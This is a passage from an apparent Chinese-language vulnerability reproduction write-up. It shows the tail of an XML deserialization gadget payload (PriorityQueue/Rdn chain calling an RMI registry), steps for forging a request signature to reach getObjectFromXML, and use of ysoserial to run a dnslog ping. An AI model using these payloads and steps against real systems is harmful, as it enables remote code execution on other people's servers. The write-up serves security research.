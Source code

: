 ```
                                                        <short>0</short>
                                                        <boolean>false</boolean>
                                                    </java.rmi.server.RemoteObject>
                                                </registry>
                                                <host>127.0.0.1</host>
                                                <port>1099</port>
                                            </ctx>
                                        </candidates>
                                    </aliases>
                                </it>
                            </mm>
                        </multiPart>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
<sign>123</sign>
</java.util.PriorityQueue>
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOmIw2gNlsibuK36Oic35GBs2ywkIgMXVgmMtMAH5LRX9dmK7y8V2TSLqQ/640?wx_fmt=png "")  
  
最后调试出sign签名。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOWgMNXoIRJIBDptkfFYD2ZMWeRiajT5Vhpz9fX4hppxcAGwFwa2rib93A/640?wx_fmt=png "")  
  
重新将刚才的sign签名转化为大写，复制到数据包中，再请求一次。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOJrWzk0kPcrSDOBPqiaKV26fJBwicM7EjrgMTyvQ5fUVll58V1B9ptx5w/640?wx_fmt=png "")  
  
****  
成功进入到getObjectFromXML方法里面。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjO8ZaZlPF4UVpiae3vvynwvOl50nDgicgmb1IG3PFbNoIvvsSyHicOMsY2Q/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOw1niaWbnWjGdHrbqZnzGhW94nTgRuekktex4McAGozoXhWQ1OmZa7Jw/640?wx_fmt=png "")  
  
  
成功执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOc7HpSicIBzCZvibLrCPsud1IviarXApXUlGXPzxibbiaa6mxia7ZDBgszEjw/640?wx_fmt=png "")  
  
  
**3、漏洞复现**  
  
步骤相同，在云服务器使用ysoserial-all.jar工具，执行ping dnslog命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibibcVguVxibd9NWbmDqfPfIjOUaBJ99iaoCR8YFksCmy8OiaIia8WWYkCrgic5wvbTOx3CPIBjzdlFmJljw/640?wx_fmt=png "")  
  
  
登录后台系统，构造数据包  
  